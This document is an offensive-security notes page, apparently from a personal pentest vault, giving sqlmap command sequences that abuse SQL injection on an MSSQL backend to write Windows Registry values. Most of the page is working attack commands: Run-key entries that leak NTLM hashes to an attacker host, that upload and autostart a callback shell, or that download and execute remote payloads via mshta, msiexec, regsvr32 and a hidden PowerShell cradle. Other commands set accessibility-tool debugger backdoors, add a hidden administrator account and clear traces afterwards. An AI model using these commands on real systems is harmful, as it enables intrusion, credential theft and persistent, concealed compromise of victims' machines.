 # Windows Registry

Search Tag(s): #sqlmap #initial-access #persistence

## 01 - Create Registry Values

TODO: Provide  a scenario if it's not possible to reboot the windows machine. An attacker can use **Denial of Service (DoS)** attack vector to crash the machine then it reboots to get a callback shell.

## 1.1 - Conditions

TODO: Gather conditions to takeover of the machine in the MSSQL backend

TODO: Check other world writeable folders

```
C:\Windows\Tasks\
C:\Users\Public\
```

1. The DBMS backend must be MSSQL

## 1.2 - Grab NTLM hashes

- Run [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xD - Sniffing and Spoofing/Passive/Responder|Responder]] to grab the NTLM hashes

```
$ sqlmap -u "<URL>" --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="cmd.exe /c dir \\\\<attacker_IP>\\snare.txt"

$ sqlmap -u "<URL>" --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="cmd.exe /c net view \\\\<attacker_IP>\\snare.txt"

$ sqlmap -u "<URL>" --reg-read="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

## 1.3 - Execute callback shell in disk

Upload a callback shell in the windows temporary directory.

```
$ sqlmap -u "<URL>" --file-write=/path/to/shell.exe --file-dest="C:\Windows\Temp\shell.exe"

$ sqlmap -u "<URL>" --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="C:\Windows\Temp\shell.exe"
```

Then confirm the registry value is updated successfully.

```
$ sqlmap -u "<URL>" --reg-read="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

Cleanup the registry value and confirm it's deleted.

```
$ sqlmap -u "<URL>" --reg-del="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"

$ sqlmap -u "<URL>" --reg-read="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

## 1.4 - Execute callback shell in memory (fileless)

### 1.4.1 - Host a webserver to stage the implant

Mshta

```
$ sqlmap -u "<URL>" --reg-value="Updater" --reg-data="mshta.exe http://<IP>/shell.hta"
```

Msiexec

```
$ sqlmap -u "<URL>" --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="msiexec.exe /q /i http://<attacker_IP>/shell.msi"
```

Regsvr32

```
$ sqlmap -u "<URL>"--reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="regsvr32.exe /s /n /u /i:http://<attacker_IP>/shell.sct scrobj.dll"
```

PowerShell download cradle.

```
$ sqlmap -u "<URL>" --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="powershell.exe -nop -NonI -Nologo -w hidden -c \"IEX ((new-object net.webclient).downloadstring(\'http://<IP>/shell.ps1\'))\""
```

### 1.4.2 - Directly execute the callback shell

Fileless one-liner PowerShell implant.

```
$ sqlmap -u "<URL>" --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="conhost.exe --headless powershell.exe -nop -NonI -Nologo -w hidden -e <base64_payload>"
```

Fileless one-liner Python implant.

```
$ sqlmap -u "<URL>" --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="python.exe -c <payload>"
```

Cleanup the registry value and confirm it's deleted.

```
$ sqlmap -u "<URL>" --reg-del="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"

$ sqlmap -u "<URL>" --reg-read="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

## 1.5 - Living off the Land

### 1.5.1 - Remote Desktop Protocol via Stick Keys Command Prompt

- **We must first take note of the registry values to clear traces afterwards**

```
$ sqlmap -u "<URL>" --reg-read="HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" --reg-value="Debugger"
```

- **Add a terminal prompt in the registry value.**

```
$ sqlmap -u "<URL>" --reg-add="HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" --reg-value="Debugger" --reg-type=REG_SZ --reg-data="cmd.exe"

$ sqlmap -u "<URL>" --reg-add="HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" --reg-value="Debugger" --reg-type=REG_SZ --reg-data="powershell.exe"
```

- **Create user account (Optional). Refer to this [[User Accounts Examples|link]].**

```
$ sqlmap -u "<URL>" --reg-add="HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="cmd.exe /c net user webadmin Passw0rd123\! /add /y & net localgroup Administrators webadmin /add /y & net localgroup \"Remote Desktop Users\" webadmin /add /y"
```

- **Then confirm the modified changes.**

```
$ sqlmap -u "<URL>" --reg-read "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" --reg-value="Debugger"

$ sqlmap -u "<URL>" --reg-read="HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

- **Cleanup the registry value and double check to confirm.**

```
$ sqlmap -u "<URL>" -p <parameter> --cookie="<cookie_seesion_ID_key>=<cookie_session_ID_value>" --random-agent --dbms=mssql --reg-del="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"

$ sqlmap -u "<URL>" -p <parameter> --cookie="<cookie_seesion_ID_key>=<cookie_session_ID_value>" --random-agent --dbms=mssql --reg-read="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

### 1.5.2 - Remote Desktop Protocol via Accessibility On-Screen Keyboard Command Prompt

We must first take note of the registry values to clear traces afterwards.

```
$ sqlmap -u "<URL>" --reg-read="HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" --reg-value="Debugger"
```

Add a terminal prompt in the registry value.

```
$ sqlmap -u "<URL>" --reg-add="HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" --reg-value="Debugger" --reg-type=REG_SZ --reg-data="cmd.exe"

$ sqlmap -u "<URL>" --reg-add="HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" --reg-value="Debugger" --reg-type=REG_SZ --reg-data="powershell.exe"
```

Then confirm the modified changes.

```
$ sqlmap -u "<URL>" --reg-read "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" --reg-value="Debugger"

$ sqlmap -u "<URL>" --reg-read="HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

Cleanup the registry value and double check to confirm.

```
$ sqlmap -u "<URL>" --reg-del="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"

$ sqlmap -u "<URL>" --reg-read="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

---
## References

- [[Registry Key References]]

- [[AnyDesk#^1f2bd0|Windows RDP Remote Login]]

- [Pwning a shell via MSSQL DBMS](https://owasp.org/www-chapter-ghana/assets/slides/Pwning_a_shell_via_MSSQL_DBMS.pdf)

- [NetSPI SQLWiki: Executing OS Commands Through SQL Server](https://sqlwiki.netspi.com/attackQueries/executingOSCommands/#sqlserver)